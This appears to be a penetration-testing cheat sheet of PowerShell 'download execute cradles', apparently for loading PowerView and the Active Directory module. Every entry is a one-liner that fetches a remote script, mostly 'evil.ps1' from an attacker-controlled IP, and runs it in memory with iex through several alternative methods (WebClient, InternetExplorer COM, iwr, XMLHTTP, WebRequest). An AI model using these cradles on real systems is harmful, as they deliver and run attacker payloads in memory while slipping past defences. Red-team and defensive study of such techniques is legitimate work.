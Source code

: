 # Download execute cradle 
## Power View (PV) and the Active Directory Module discussed further on can be Downloaded and Executed with these methods.

```PowerShell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') 
```

```PowerShell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

## PSv3 onwards 
```PowerShell
iex (iwr 'http://192.168.230.1/evil.ps1') 
```

```PowerShell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText 

```

```PowerShell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1") 

$r = $wr.GetResponse() 

IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
